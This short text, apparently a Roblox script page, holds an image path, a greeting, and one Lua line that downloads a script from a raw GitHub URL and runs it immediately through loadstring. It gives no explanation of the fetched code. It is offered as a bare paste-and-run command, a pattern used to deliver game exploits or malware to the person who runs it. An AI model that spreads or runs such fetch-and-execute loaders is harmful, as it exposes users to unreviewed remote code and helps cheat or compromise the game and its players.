 Hi 
loadstring(game:HttpGet("https://raw.githubusercontent.com/Buibiendzai/description/main/test"))()

